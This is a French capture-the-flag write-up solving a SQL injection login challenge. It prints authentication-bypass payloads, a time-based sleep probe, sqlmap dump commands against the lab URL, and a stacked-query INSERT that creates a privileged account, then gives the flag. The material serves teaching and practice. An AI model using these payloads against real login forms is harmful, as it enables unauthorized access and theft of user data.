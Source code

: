 # Web 100 - Super Query Login v2

La suite d’une série d’injection SQL avec un champ de connexion. On se connecte avec une injection
classique:

>‘or 1=1 limit 1 #

On est connecté mais on nous indique que nous n’avons pas le rang nécessaire (rang = 0).
On essaie de se connecter sur d’autres comptes en faisant varier le paramètre “limit”
> ‘or 1=1 limit 1,2 #

Malheureusement aucun compte ne semble avoir le rang espéré. On va essayer de faire une requête à la
suite de la requête principale:

```sql
SELECT something FROM table WHERE something = ‘$username’ AND something =’ $password’ ;DEUXIEME_REQUETE```


On injecte donc avec: ‘ and sleep(5) # On remarque que le chargement de la page est beaucoup plus
long que la normal du fait de la pause demandée via l’injection à MySQL.
La suite de notre exploitation va consister à ajouter un nouvel utilisateur dans la base de données avec le
rang adéquat. Pour faciliter l’exploitation on peut passer par sqlmap afin de récupérer la table contenant
les utilisateurs et les colonnes de celle-ci.

> python
sqlmap.py
-u
"http://ese.crashlab.org/bla/ctf/web/web7/"
"username=toto&password=toto" -p "username" --level 3 --threads 4
--data


La faille est exploitable en blind avec RLIKE, on récupère ce dont on a besoin:

>python
sqlmap.py
-u
"http://ese.crashlab.org/bla/ctf/web/web7/"
"username=toto&password=toto" -p "username" --level 3 --threads 4 --dump
--data


On a alors une table web3_users avec les colonnes: id, password, rank et username. Notre injection pour
ajouter un nouvel utilisateur se résume alors à:
```sql
Login = ' ; INSERT INTO web3_users(id, username, password, rank) VALUES (987,‘bob’,‘bob’, 1) #```

On se connecte avec le compte créé et on obtient le flag: **ESE{St4cKeD_Qu3rIeS}**